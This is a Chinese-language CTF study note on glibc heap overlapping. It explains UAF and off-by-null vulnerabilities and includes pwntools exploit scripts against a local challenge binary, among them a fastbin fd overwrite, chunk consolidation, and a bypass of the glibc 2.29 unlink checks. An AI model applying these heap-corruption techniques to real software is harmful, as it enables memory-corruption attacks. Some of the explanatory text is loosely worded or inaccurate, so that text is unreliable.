


# heap overlapping

这里使用的这个方法就是让一个堆块控制另一个堆块的头部，而不是只能控制内存区域，这个条件比普通的uaf要强很多

前置知识点

在pwn题目中，堆（heap）模块是否存在 **Use-After-Free (UAF)** 漏洞对程序行为和漏洞利用方式有显著影响。以下是两者的区别和关键点分析：

### **1. UAF漏洞存在时的行为**

当堆模块存在UAF漏洞时：

- **释放后的chunk仍可访问**：程序在释放（`free`）一个chunk后，未正确清理或验证指针，导致后续代码可以继续访问或操作已释放的chunk。
- **未定义行为**：访问已释放的chunk可能导致：
  - **堆损坏**：覆盖chunk的metadata（如`fd`、`bk`指针）。
  - **任意地址读写**：通过伪造chunk结构，控制程序行为。
  - **程序崩溃**：访问非法地址或触发断言失败。

#### **典型利用场景**

- **覆盖chunk的`fd`指针**：通过UAF，将`fd`指针指向目标地址（如`tcache`、`fastbin`或`unsorted bin`），实现任意地址写。
- **伪造chunk**：利用UAF覆盖chunk的大小或状态，触发`malloc`或`free`的异常行为。
- **信息泄露**：通过UAF读取已释放chunk的内容，泄露堆地址或libc基址。

#### **示例代码（UAF漏洞）**

c

复制

```c
void vulnerable_function() {
    char *ptr = malloc(0x20);
    free(ptr); // 释放ptr
    use_after_free(ptr); // UAF：继续使用已释放的ptr
}
```

### **2. 无UAF漏洞时的行为**

当堆模块没有UAF漏洞时：

- **释放后的chunk不可访问**：程序在释放chunk后，会正确清理指针（如设置为`NULL`），防止后续代码访问已释放的chunk。
- **安全行为**：访问已释放的chunk会直接导致崩溃（如段错误），无法利用。

#### **典型行为**

- **指针清理**：释放后将指针设置为`NULL`，避免后续误用。
- **堆管理器保护**：如glibc的`double free`检测会触发错误，防止重复释放。

#### **示例代码（无UAF漏洞）**

c

复制

```c
void safe_function() {
    char *ptr = malloc(0x20);
    free(ptr); // 释放ptr
    ptr = NULL; // 清理指针，防止UAF
    if (ptr != NULL) use_after_free(ptr); // 安全检查
}
```

### **3. UAF漏洞的检测与防御**

#### **检测机制**

- **glibc的double free检测**：通过检查chunk的`in_use`位，检测重复释放。
- **ASAN（AddressSanitizer）**：标记已释放内存为不可访问，检测UAF行为。
- **堆快照对比**：工具如`valgrind`会记录释放的chunk，检测后续访问。

#### **防御机制**

- **指针清理**：释放后将指针设为`NULL`。
- **访问控制**：在使用指针前检查是否为`NULL`。
- **安全编译选项**：启用`-fno-delete-null-pointer-checks`等选项。

### **4. 利用UAF漏洞的常见技巧**

#### **覆盖`fd`指针**

c

复制

```c
// 假设存在UAF漏洞
malloc(0x20); // 分配chunk A
malloc(0x20); // 分配chunk B
free(A);      // 释放A
// 利用UAF覆盖A的fd指针
*((size_t*)A) = target_address; // fd = target_address
malloc(0x20); // 触发tcache使用伪造的fd
```

#### **伪造`tcache`或`fastbin`**

c

复制

```c
// 利用UAF覆盖chunk的metadata
*((size_t*)A) = 0x41414141; // 覆盖size字段
malloc(0x20); // 触发异常行为
```

#### **信息泄露**

c

复制

```c
// 通过UAF读取已释放chunk的内容
printf("%p\n", *A); // 泄露堆地址或libc基址
```

### **总结**

- **存在UAF漏洞时**：程序行为不可预测，可利用堆管理器的机制（如`tcache`、`fastbin`）实现任意地址读写。
- **无UAF漏洞时**：程序行为安全，释放后的chunk不可访问，无法利用。

在pwn题目中，UAF漏洞通常是关键利用点，需要结合堆管理器的特性（如`tcache`、`unsorted bin`）设计利用链。

## 方法一使用uaf漏洞构造heap overlapping

这里可以使用uaf构造heap overlapping 但是我个人觉得这个用法也不是很有必要其主要的原因是因为他的主要作用就是把一个堆块变成一个比较强的uaf的作用，其主要的原因是当你有了uaf后很多的数据也不用通过heap overlapping来获取数据了，但是有的时候uaf也确实不能得到我们想要的数据

因此我们还是要了解一下这个方法

那么我们还是要了解一下用法和写法

在这里我们用fastbin 中的数据为例在fastbin中如果我们可以在uaf漏洞把fastbin的fd指针指向我们自己构造的一个fastbin的头部这样我们就可以把这这个fastbin给申请出来然后他就可以构造出一个堆重叠了

exp

```py
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(10, 0x80)
add_chunk(0, 0x70)
add_chunk(1, 0x50)
add_chunk(2, 0x70)


# pause()

edit_chunk(0, b'a' * 0x60 + p64(0) + p64(0x81))#这里我们构造一个fake_chunk
# gdb.attach(p)


delete_chunk(2)
delete_chunk(0)#这里我们释放两个chunk形成一个fastbin来实现
# gdb.attach(p)

edit_chunk(0, p8(0))#这里我们修改第一个chunk的一个
#
add_chunk(0, 0x70)
add_chunk(0, 0x70)
#
delete_chunk(1)
#
edit_chunk(0, p64(0) + p64(0x50))
#
add_chunk(0, 0x50)

gdb.attach(p)

p.interactive()
```

## 方法二 offbynull 转heap overlapping

这里我们我们查看使用offbynull的方法来形成一个heap overlapping

那么我们这里就要了解一下offbynull和offbyone的区别，其中主要的区别就是offbyone可以溢出一个字节但是offbynull就只能溢出一个字符

具体的有查看下面这个文件

> [!NOTE]
>
> 在堆溢出中，**offbynull** 和 **offbyone** 是两种常见的漏洞类型，它们的区别主要体现在以下几个方面：
>
> ### 1. **溢出内容**
>
> - **offbyone**：可以溢出一个字节，且这个字节可以是任意可控的值。这种漏洞通常通过修改堆块的大小字段（如`size`或`prev_size`）来实现堆块重叠或伪造堆块结构。
> - **offbynull**：溢出的字节只能是空字节（`\x00`）。这种漏洞通常利用空字节的特性来清空前一个堆块的`prev_inuse`位，从而伪造空闲堆块。
>
> ### 2. **利用方式**
>
> - **offbyone**：
>   - 可以通过修改堆块的大小字段，使堆块与下一个堆块合并（如`unlink`操作）。
>   - 可以利用堆块重叠（`overlap-chunk`）来覆盖其他堆块的数据或指针。
>   - 常见于`fastbin`相关的操作，例如伪造`fd`指针。
> - **offbynull**：
>   - 通常通过清空`prev_inuse`位，伪造空闲堆块，从而实现堆块重叠。
>   - 利用空字节特性伪造堆块结构，进行后续的堆操作（如`unlink`或`malloc`）。
>
> ### 3. **影响**
>
> - **offbyone**：可以更灵活地控制堆块的大小和结构，利用方式较为多样化，适合复杂的堆利用场景。
> - **offbynull**：虽然溢出的字节受限，但通过空字节的特性，可以实现一些特殊的堆块伪造和合并操作，适合特定场景下的利用。
>
> ### 总结
>
> - **offbyone** 更灵活，适合需要精确控制堆块大小和结构的场景。
> - **offbynull** 利用空字节的特性，适合需要伪造空闲堆块或清空`prev_inuse`位的场景。
>
> 两者在堆溢出中的利用方式和影响各有侧重，具体选择取决于漏洞的具体情况和利用目标。

在这里我们已经明白了offbyone和offbynull的区别从这里我们就可以明白offbyone的利用会比offbynull更加简单可以可以溢出控制size的这个字段但是offbyone就只能控制一个**\x00**的一个位置因此offbynull的利用会更加的繁琐

但是在这里我们使用offbynull来进行实验

因此我们只用写一个**\x00**的模块就可以了

```py
from pwn import *

from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x200)
add_chunk(1, 0x18)
add_chunk(2, 0x1f0)
add_chunk(3, 0x10)

delete_chunk(0)
edit_chunk(1, b'a' * 0x10 + p64(0x230) + p8(0))#覆盖下一个chunk的程序以为上一个chunk是释放的但是并没有因此会出现unlik的操作
# gdb.attach(p)
delete_chunk(2)#free以后会进行一个合并
add_chunk(0,0x428)#申请回来再删除chunk1就可以控制chunk1了
delete_chunk(1)
gdb.attach(p)

p.interactive()
```

这里有一个前提即使合并的两个chunk要是再一个unsrotbin中的

### 变种一 prev_size不能控制

但是再实践中会出现一些把prev_size给填充一个随机数使得我们不能覆盖和修改prev_size位从而对size进行一个修改

因此我们这里就要使用另外的一种方法来进行一个构造使得他形成一个heap overlapping

```py
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))

#这里我们要创建四给chunk其中第一个chunk0是用来offbynull的chunk，chunk1是用来分割的chunk，chunk2是用来合并的chunk
add_chunk(0,0x18)
add_chunk(1,0x408)
add_chunk(2,0x2f0)
add_chunk(3,0x10)

delete_chunk(1)
edit_chunk(0,b'a'*0x18+p8(0))#这里我们把chunk的数据改小原本0x410大小的数据修改位0x400
#这里四个堆块是对数据进行了一个分割使得他的总体大小还是0x400其中的chunk5和chunk7是用来分割chunk6的使得chunk6可以释放到unsortbin中获取libc
add_chunk(4,0x1f0)
add_chunk(5,0x10)
add_chunk(6,0x1f0-0x40)
add_chunk(7,0x10)

delete_chunk(4)
delete_chunk(2)
delete_chunk(6)

#再次给他申请出来
gdb.attach(p)

p.interactive()
```

### 变种二高版本绕过

高版本2.29的绕过在高版本中chunk的合并有着一个新的更改并且加入了一些检查因此我们要明确有那些检查这里进行一个详细的列举

```tex
prev_size和按照prev_size找到的chunk的size是否相等
unlink
	chunksize(p)==prev_size(next_chunk(p));
	fd->bk==bk->fd==p
	p->fd_nextsize==null(绕过对fd_nextsizehe bk_nextsize的双向链表检查)
```

思路：构造一个fake chunk满足上述条件，最好是不需要泄露地址

难点：如何在不泄露地址的情况下来构造满足fd->bk==bk->fd==p的fake_chunk





实现脚本

```py
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path], aslr=False)


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x18)
add_chunk(1, 0x418)
add_chunk(2, 0x108)
add_chunk(3, 0x418)
add_chunk(4, 0x438)
add_chunk(5, 0x108)
add_chunk(6, 0x428)
add_chunk(7, 0x108)

#这里构造的一个payload和bins的空间他是从fd的反方向也就是bk方向进行一个chunk的布局构造
delete_chunk(1)
delete_chunk(4)
delete_chunk(6)
delete_chunk(3)

add_chunk(1, 0x438)#创建一个大于0x200大小的堆块时他会去便利unsortbin如果他们里面有同样大小的chunk就会分割出来其他的会写如到lagrebin中去因此在这个位置就存在了一个lagrebin的获取和构建
edit_chunk(1, b'a' * 0x418 + p64(0xa91))#并且在这个chunk的后0x20的位置上构造一个fake chunk这里构造了一个
add_chunk(3, 0x418)
add_chunk(4, 0x428)
add_chunk(6, 0x418)

delete_chunk(6)
delete_chunk(3)

add_chunk(3, 0x418)
edit_chunk(3, b'b' * 8 + p8(0))
add_chunk(6, 0x418)

delete_chunk(6)
delete_chunk(4)
add_chunk(4, 0x9f8)#这个chunk是为把chunk6写入

add_chunk(6, 0x428)
edit_chunk(6, p8(0))
add_chunk(8, 0x418)
add_chunk(9, 0x38)

edit_chunk(7, b'a' * 0x100 + p64(0xa90) + p8(0))#这里写了的一个a90的原因是因为前面的chunk大小的一个之和得到了一个一个0xa90并且可以绕过fd和bk的检查

# delete_chunk(4)

# gdb.attach(p)

gdb.attach(p)

p.interactive()

```

